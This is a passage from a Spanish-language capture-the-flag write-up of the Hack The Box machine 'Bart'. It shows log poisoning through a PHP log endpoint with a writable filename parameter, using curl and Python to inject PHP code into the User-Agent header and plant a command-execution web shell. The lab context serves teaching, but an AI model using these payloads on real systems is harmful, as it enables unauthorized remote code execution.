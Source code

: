 Podriamos tratar de modificar el campo `username` para ver que nos devuelve el servidor y tenemos que para los usuarios válidos tenemos una respuesta de **1** y para otros vemos un **0**. Además, analizando el recurso, vemos que posiblemente se está tramitando algo hacia un recurso a llamado `log.txt`; por lo que vamos a echarle un ojo al recurso `/log/log.txt`:

![](/assets/images/htb-bart/bart-log1.png)

Vemos que cada ves que hacemos una consulta hacia http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey, se ve reflejado en el recurso http://internal-01.bart.htb/log/log.txt; además es posible que podamos crear archivos debido al parámetro `filename`:

 - http://internal-01.bart.htb/log/log.php?filename=k4miyo.txt&username=daniel
 - http://internal-01.bart.htb/log/k4miyo.txt

Tenemos la posibilidad de crear archivos dentro del recurso, por lo que ya debemos estar pensando en un ***log poisoning*** enviando comandos a través del header:

```bash
❯ curl -s -H "User-Agent: <?php system('whoami') ?>" http://internal-01.bart.htb/log/log.php\?filename=k4miyo.txt\&username=daniel
```

![](/assets/images/htb-bart/bart-log2.png)

Vemos que nuestro código no se interpreta y esto es normal debido a que estamos creando un archivo de texto (txt). Vamos a cambiar la extensión por **php**

```bash
❯ curl -s -H "User-Agent: <?php system('whoami') ?>" http://internal-01.bart.htb/log/log.php\?filename=k4miyo.php\&username=daniel
```

![](/assets/images/htb-bart/bart-log3.png)

Para trabajar un poco mejor, vamos a generar una variable que nos permita ejecutar comados y a través de python para evitar problemas con los caracteres especiales en bash:

```bash
❯ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> headers = {'User-Agent' : '<?php system($_REQUEST["cmd"]); ?>'}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=shell.php&username=daniel', headers=headers)
>>>
```
